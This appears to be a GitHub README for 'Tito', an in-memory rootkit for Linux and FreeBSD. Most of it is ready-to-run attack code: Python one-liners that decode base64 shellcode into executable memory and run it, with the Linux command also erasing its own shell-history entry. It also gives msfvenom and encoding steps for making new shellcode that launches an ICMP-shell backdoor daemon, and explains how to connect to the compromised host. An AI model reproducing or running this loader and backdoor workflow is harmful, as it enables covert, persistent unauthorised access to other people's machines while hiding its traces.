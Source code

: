 # Tito
An In-Memory Rootkit For Linux

<h2>From Tito to Stalin:</h2>

"Stop sending people to kill me. We’ve already captured five of them, one of them with a bomb and another with a rifle. If you don’t stop sending killers, I’ll send one to Moscow, and I won’t have to send a second."

You can run the entire rootkit from the Linux command-line like so:

```
python3 -c 'import base64, mmap, ctypes; encoded_shellcode = "SDHJSIHp9////0iNBe////9Iu6ajGtSlB5bkSDFYJ0gt+P///+L07hs1tsxpuZfOo4OE8VjEgs6OeYD7VX75pqMa+81o+4GJ03LnlnW5rfXrX5jpKuDUiJE1vdZv8uTw9E6KzzzO66OjGtSlB5bk"; shellcode = base64.b64decode(encoded_shellcode); mem = mmap.mmap(-1, len(shellcode), mmap.MAP_PRIVATE | mmap.MAP_ANONYMOUS, mmap.PROT_WRITE | mmap.PROT_READ | mmap.PROT_EXEC); mem.write(shellcode); addr = ctypes.addressof(ctypes.c_char.from_buffer(mem)); shell_func = ctypes.CFUNCTYPE(None)(addr); print("... and I won’t have to send a second."); shell_func()' && history -d $(history | awk 'END { print $1 }')
```

With FreeBSD, it will depend on the version of python installed. If you have python3.11 you can just use this:

```
python3.11 -c 'import base64, mmap, ctypes; encoded_shellcode = "SDHJSIHp+P///0iNBe////9Iu67h2fdth+YDSDFYJ0gt+P///+L05tALH0+H5gOBibaaCKiWa53Sq9gZ7pJsgaiKvyjLqi7Y0ffEQu6Va8rhhqU6z2/l5tAZv+5P3Qyr4dn3bYfmAw=="; shellcode = base64.b64decode(encoded_shellcode); mem = mmap.mmap(-1, len(shellcode), mmap.MAP_PRIVATE | mmap.MAP_ANONYMOUS, mmap.PROT_WRITE | mmap.PROT_READ | mmap.PROT_EXEC); mem.write(shellcode); addr = ctypes.addressof(ctypes.c_char.from_buffer(mem)); shell_func = ctypes.CFUNCTYPE(None)(addr); print("...and I will not have to send a second."); shell_func()' 2>/dev/null
```

The path to binary here in these examples is hardcoded, but you may go into the ISHELL-v0.3 folder and type 'make linux' or 'make bsd' to build ish and ishd. Then you can make your own shellcode like this:

msfvenom -p linux/x64/exec CMD=/path/to/ishd -f c -b "\x00\x0a\x0d" >
shellcode.txt

You can parse out only the shellcode and base64 encode it like this:

grep '"' shellcode.txt | tr "\n" " " | sed -e 's/\" \"//g;s/\"//g;s/;//g'
&& echo " " | base64

Then you may run ish with the ip of the device the rootkit was ran on to connect.

Currently tested on x86_64 Debian Trixie and FreeBSD 14.1



